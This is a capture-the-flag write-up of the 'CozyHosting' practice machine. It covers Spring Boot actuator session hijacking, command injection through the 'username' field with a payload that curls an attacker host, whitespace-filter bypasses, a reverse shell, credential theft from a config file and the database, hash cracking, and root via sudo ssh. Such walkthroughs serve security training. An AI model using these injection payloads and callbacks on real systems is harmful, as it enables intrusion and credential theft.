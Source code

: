 # 

![Untitled](/assets/images/cozyhosting/0.png)

## NMAP

```json
# Nmap 7.94 scan initiated Mon Sep  4 01:16:04 2023 as: nmap -sC -sV -oA nmap/cozyhosting 10.10.11.230
Nmap scan report for 10.10.11.230
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
5555/tcp open  freeciv?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  4 01:18:34 2023 -- 1 IP address (1 host up) scanned in 149.32 seconds
```

## RECON

We see that 3 ports are opened (22,80 and 5555). Let’s first visit port 80 (HTTP), the banner from NMAP tells us it is an `nginx` server running on `Ubuntu`. Going to [http://10.10.11.230](http://10.10.11.230) we see 

![Untitled](/assets/images/cozyhosting/1.png)

This website seems to be some sort of Hosting Provider. Hovering over all the buttons tells us that only `Login` actually leads somewhere. Either way let’s run a directory bruteforce to look for paths on this website.

### Directory Brute force

![Untitled](/assets/images/cozyhosting/2.png)

Looking at the results we see a few interesting endpoints. `/admin` leads to a 401 and `/error` leads to a 500. Let’s navigate to `/error` to checkout the error page and see if it will reveal the framework that is being used. 

![Untitled](/assets/images/cozyhosting/3.png)

`“Whitelabel Error Page”`  From doing Bug Bounty, I’ve actually seen this error page before and immediately identified that this is an error page for the Spring Boot JAVA framework. A quick google search will also show us that this is a Spring Boot error page.

![Untitled](/assets/images/cozyhosting/4.png)

Now that we know that it is running Spring Boot we can try and brute force the `/actuator` endpoints for Spring Boot.  TLDR of the `/actuator` endpoint is that it is a debugging endpoint for developers.

![Untitled](/assets/images/cozyhosting/5.png)

> Source: [https://www.baeldung.com/spring-boot-actuators](https://www.baeldung.com/spring-boot-actuators)
> 

![Untitled](/assets/images/cozyhosting/6.png)

We see that we get a bunch of hits from our directory brute force. Going to `/actuator/sessions` reveals the session tokens for all the users of the website.

![Untitled](/assets/images/cozyhosting/7.png)

With this information, we can perform a “Session Hijacking” Attack  and login as the user “kanderson”

![Untitled](/assets/images/cozyhosting/8.png)

We can change our cookie to the victim’s cookie. Now let’s try accessing the `/admin` endpoint again.

![Untitled](/assets/images/cozyhosting/9.png)

We see that we now have access to the Admin Dashboard.

## Foothold

Looking at the Admin Dashboard, we find a functionality that seems to be executing a shell command.

![Untitled](/assets/images/cozyhosting/10.png)

Let’s open up Burp and look at the request that is made when we use this functionality .

![Untitled](/assets/images/cozyhosting/11.png)

We can see that a POST request gets sent to the endpoint `/executessh` and it takes two parameters host and username. From here I pretty much was sure that a shell command was being executed in the backend. The command would probably look something like

![Untitled](/assets/images/cozyhosting/12.png)

Our user input is being inserted into a shell command. If we could escape out of the ssh command and sneak in our own command we will be able to achieve command injection. Let’s try changing our POST request data to

```bash
host=127.0.0.1&username=;curl 10.10.16.10:8000;
```

When this request gets sent. We should expect the backend shell command will be transformed to

![Untitled](/assets/images/cozyhosting/13.png)

Let’s send up a python http server on port 8000 to see if we sucessfully injected the curl command on the server.

![Untitled](/assets/images/cozyhosting/14.png)

However, when we send the request we see that whitespaces are not allowed! But we can bypass this in multiple ways. First, we could use ${IFS}.

![Untitled](/assets/images/cozyhosting/15.png)

Second way is using something called “brace expansion”. I actually learned about this technique from ippsec’s video on this box. Be sure to check out ippsec’s video on this box he covers the box much better than I do.

[https://www.youtube.com/watch?v=okTl6kWrncg](https://www.youtube.com/watch?v=okTl6kWrncg)

Brace Expansion

![Untitled](/assets/images/cozyhosting/16.png)

Brace Expansion will turn this command into 

```bash
ssh 127.0.0.1@;curl 10.10.16.10:8000;
```

> Official GNU documentation of Brace Expansion:[https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html)
> 

Now we can create a reverse shell on the box.

![Untitled](/assets/images/cozyhosting/17.png)

## USER

we see that we are the app user on the box. If we run `ls` we can see the jar file of the web app. Let’s move it onto your machine and extract it. After, extracting it we see two files.

![Untitled](/assets/images/cozyhosting/18.png)

Navigating to the BOOT-INF file which usually contains properties about the Spring Boot application. We see an [`application.properties`](http://application.properties) file which contains the postgres database password.

![Untitled](/assets/images/cozyhosting/19.png)

Let’s check if postgres is running on the box. We run `ss -ltop`

![Untitled](/assets/images/cozyhosting/20.png)

We see that postgresql is indeed running. Let’s try logging into postgres with the password.

![Untitled](/assets/images/cozyhosting/21.png)

We get logged into the postgres database and we can see 4 databases. We are interested in the cozyhosting databse. So let’s have a look at the contents of the database.

![Untitled](/assets/images/cozyhosting/22.png)

We find the password hash of the admin and kanderson user. Let’s try to crack these password on our machine using hashcat. Judging from the `$2a$` we can guess that this is a bcrypt hash, so let’s try cracking this hash with mode 3200(bcrypt).

![Untitled](/assets/images/cozyhosting/23.png)

We get the password of the admin user `manchesterunited` . Let’s try logging into the josh user.

![Untitled](/assets/images/cozyhosting/24.png)

![Untitled](/assets/images/cozyhosting/25.png)

## Root

We get logged into the josh user. Now let’s run `sudo -l` to see if we have any easy win on privilege escalation.

![Untitled](/assets/images/cozyhosting/26.png)

We see that we can run `/usr/bin/ssh *` as the root user. Indicating that we can run any ssh  command we want as root. Let’s go to gtfobin to look for a payload

![Untitled](/assets/images/cozyhosting/27.png)

> Source: [https://gtfobins.github.io/gtfobins/ssh/](https://gtfobins.github.io/gtfobins/ssh/)
> 

We run the command and we get a shell as root.

![Untitled](/assets/images/cozyhosting/28.png)
